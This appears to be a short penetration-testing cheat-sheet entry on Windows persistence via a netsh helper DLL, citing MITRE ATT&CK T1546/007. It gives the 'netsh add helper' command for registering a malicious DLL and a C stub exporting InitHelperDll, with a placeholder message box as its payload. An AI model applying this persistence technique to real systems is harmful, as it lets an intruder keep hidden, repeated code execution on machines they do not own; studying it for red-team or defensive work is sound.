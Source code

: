 # Netsh Helper DLL for Persistence

This command makes a malicious DLL to be executed each time the `netsh` command is run.

```powershell
netsh add helper C:\evil.dll
```

Note: The DLL file must contain the `InitHelperDll` function. When the `netsh` command is run, the code in this function will be executed. Below is the example:

```c
__declspec(dllexport) void InitHelperDll() {
    // The program in here will be executed.
    MessageBox(NULL, "HACKED", "HACKED", MB_OK);
}
```

## Resources

- [MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/007/)